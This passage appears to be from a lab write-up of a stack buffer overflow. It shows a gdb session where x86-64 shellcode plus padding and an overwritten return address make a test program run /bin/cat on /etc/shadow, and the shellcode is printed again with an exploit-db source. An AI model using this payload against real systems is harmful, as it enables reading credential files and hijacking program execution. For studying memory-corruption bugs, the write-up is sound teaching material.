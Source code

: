 ```shell
```

We see a memory address printed in the middle from code in our c file and this is the new starting memory location 0x7fffffffddf0 so we replace our old 0x7fffffffddd0. Now if we adjust our payload and run we can see a process is run outside the code that should not be run:
```shell
(gdb) r $(python -c 'print "\x48\x31\xc0\x48\x31\xed\x50\x48\xbd\x63\x2f\x73\x68\x61\x64\x6f\x77\x55\x48\xbd\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x55\x48\x89\xe5\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe3\x48\x89\xe7\x50\x48\x89\xe2\x55\x53\x48\x89\xe6\x66\x6a\x3b\x66\x58\x0f\x05" + "A" * 198 + "\x7f\xff\xff\xff\xdd\xf0"[::-1]')
Starting program: /home/arun/Desktop/pt1 $(python -c 'print "\x48\x31\xc0\x48\x31\xed\x50\x48\xbd\x63\x2f\x73\x68\x61\x64\x6f\x77\x55\x48\xbd\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x55\x48\x89\xe5\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe3\x48\x89\xe7\x50\x48\x89\xe2\x55\x53\x48\x89\xe6\x66\x6a\x3b\x66\x58\x0f\x05" + "A" * 198 + "\x7f\xff\xff\xff\xdd\xf0"[::-1]')

Breakpoint 1, 0x0000555555555169 in main ()
(gdb) c
Continuing.
0x7fffffffddf0

Breakpoint 2, 0x00005555555551d2 in main ()
(gdb) c
Continuing.
H1�H1�PH�c/shadowUH�//////etUH��PH�/bin/catSH��H��PH��USH��fj;fXAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����

Breakpoint 3, 0x00005555555551e0 in main ()
(gdb) c
Continuing.
process 2444 is executing new program: /usr/bin/cat
Error in re-setting breakpoint 1: Function "main" not defined.
Error in re-setting breakpoint 2: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 3: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 2: No symbol "main" in current context.
Error in re-setting breakpoint 3: No symbol "main" in current context.
Error in re-setting breakpoint 2: No symbol "main" in current context.
Error in re-setting breakpoint 3: No symbol "main" in current context.
Error in re-setting breakpoint 2: No symbol "main" in current context.
Error in re-setting breakpoint 3: No symbol "main" in current context.
/bin/cat: //////etc/shadow: Permission denied
[Inferior 1 (process 2444) exited with code 01]
```
Here we can see a process was executed via malicious shell code inputted.

shell code used:
\x48\x31\xc0\x48\x31\xed\x50\x48\xbd\x63\x2f\x73\x68\x61\x64\x6f\x77\x55\x48\xbd\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x55\x48\x89\xe5\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe3\x48\x89\xe7\x50\x48\x89\xe2\x55\x53\x48\x89\xe6\x66\x6a\x3b\x66\x58\x0f\x05
source: https://www.exploit-db.com/shellcodes/49547




